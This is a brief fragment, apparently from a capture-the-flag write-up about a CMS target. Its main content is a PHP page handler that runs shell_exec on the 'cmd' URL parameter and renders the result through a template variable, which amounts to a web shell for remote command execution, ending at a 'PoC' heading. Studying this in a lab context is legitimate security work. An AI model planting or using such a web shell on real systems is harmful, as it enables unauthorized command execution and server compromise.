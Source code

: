 ```php
function onStart()
{
    $this->page["evilVar"] = shell_exec($_GET['cmd']);
}
```

![image]( /assets/img/devguru/6.PNG)

```javascript
{{ this.page.evilVar }}
```

###### PoC
